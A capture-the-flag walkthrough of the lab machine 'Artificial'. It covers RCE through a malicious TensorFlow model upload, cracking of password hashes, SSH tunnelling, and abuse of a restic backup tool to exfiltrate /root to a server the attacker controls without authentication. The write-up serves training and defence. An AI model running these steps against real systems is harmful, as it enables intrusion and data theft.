# Artificial -  Machine Walkthrough


## Introduction

"Artificial" is an easy-rated Linux machine that demonstrates the importance of not placing too much trust in your seemingly safe  AI models!

## Initial Enumeration

I started with a simple Nmap scan to discover open services on the target machine:

```bash
sudo nmap -sV -A 10.10.11.74
```



The scan revealed two open ports:
- **Port 22/tcp**: SSH service running OpenSSH 8.2p1 Ubuntu
- **Port 80/tcp**: HTTP service running nginx 1.18.0

With limited attack surface, I focused on the web application running on port 80.

## Web Application Analysis

Before accessing the website, I added the target IP to my `/etc/hosts` file for proper domain resolution:

```bash
echo "10.10.11.74 artificial.htb" >> /etc/hosts
```

Navigating to `http://artificial.htb` revealed an AI model hosting platform with the tagline "Empowering AI for the Future."


The website presents itself as a platform where users can "Build, test, and deploy AI models effortlessly with Artificial." 



## User Registration and Dashboard Access

I registered a new account using the registration functionality and upon
successful login, I was greeted with a dashboard showing:



The dashboard displayed:

- A "YOUR MODELS" section with the description "Upload, manage, and run your AI models here" alongside a file upload functionality and an "Upload Model" button for submitting files

- References to requirements and Dockerfile for building model environments

This functionality suggested that the platform allows users to upload and deploy custom AI models, potentially using Docker containers for isolation.

## Docker Container Analysis


inside there was a tensorflow wheel file  (A .whl (wheel) file is a Python package distribution format. Think of it as a pre-compiled Python package that can be installed with pip) and thats what i did 

I started looking for CVEs and found this : https://github.com/Splinter0/tensorflow-rce alongside this article 


https://splint.gitbook.io/cyberblog/security-research/tensorflow-remote-code-execution-with-malicious-model

which simply said that u have to edit one of your tensorflow model layers' (in this case the lambda layer) to get
well.. an rce , I apologize for my data science friends but

This demonstrates why AI/ML platforms must:
- Validate uploaded model files beyond simple extension checks
- Run model inference in sandboxed environments
- Implement proper input sanitization


I downloaded the files into the container and ran the exploit to get a .h5 file which i uploaded to the web interface 





i set up a listener and clicked on view predicitons to get my session 


and voilaa


## User flag

I explored a tiny bit until i found an sqlite database with a gael user 

I got the hash then used hashcat to break it and log into the ssh session



and there was my user flag !


## Privilege Escalation and root

#### Port discovery 

I performed network enumeration to identify internal services :



The scan revealed an internal service running on port 9898.
#### Port Forwarding
I established SSH port forwarding to access the internal service:
 ```bash
ssh gael@artifical.htb -L 9898:127.0.0.1:9898
 ```
and then accessed it to get the following web interface 


This is a backrest api 
#### pgBackRest is a backup and restore utility specifically for PostgreSQL databases. The fact that it's running with a web interface suggests:

#### There's a PostgreSQL database on this system
#### Automated backups are configured
#### There's likely sensitive data in the backups**

and I need creds to log in 

I looked around a bit and found this interesting .gz ,  
so I sent it to my host machine 

after some digging I found a backrest_root username alongside with a password 

This is bcrypt password hashing, but with an additional Base64 encoding layer on top , the double encoding
is for json compatibility ,Bcrypt hashes contain special characters ($, /, +) that can cause issues in JSON
Base64 encoding ensures the hash is "JSON-safe" with only alphanumeric characters and prevents parsing errors or character encoding issues

```bash 
cat hash.txt| base64 -d                                   
$2a$10$cVGIy9VMXQd0gM5ginCmjei2kZR/ACMMkSsspbRutYP58EBZz/0QO
```
and then
```bash 
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=bcrypt   
```
i used the password and the backrest_root username to log into the dashboard via the previous port forwarding


This is a backup management system that can create repositories and perform backups

refrencing this article : https://gtfobins-github-io.translate.goog/gtfobins/restic/?_x_tr_sl=auto&_x_tr_tl=en&_x_tr_hl=fr&_x_tr_pto=wapp , and a couple of hints online later , i managed to get the root flag 

first , i set up a restic server on my machine 
```bash 
./rest-server --path /tmp/restic-data --listen :12345 --no-auth
```
This creates a backup server that accepts connections without authentication.

from the web interface , i created a repo and excuted ran these commands 


## Initialize a repository pointing to attacker's server
```bash
-r rest:http://my_ip_address:12345/myrepo init
```
## Backup the /root directory to the attacker's server
```bash
-r rest:http://my_ip_address:12345/myrepo backup /root
```
on gael's shell : 
## View the snapshots
```bash
restic -r /tmp/restic-data/myrepo snapshots
```
## Restore the backup to access root files
```bash
restic -r /tmp/restic-data/myrepo restore b3112b8a --target ./restore
```
## Access root flag
```bash
cat /tmp/restic-data/myrepo/restore/root/root.txt
```
YOHO !!!



## Attack Chain Summary
1. **Initial Access**: Malicious TensorFlow model upload → RCE
2. **Lateral Movement**: Database credential extraction → SSH access  
3. **Privilege Escalation**: BackRest backup system abuse → Root access


## Conclusion
This machine highlights the importance of treating AI model uploads with the same security rigor as any other user-generated content, implementing proper sandboxing, and following the principle of least privilege for backup systems.


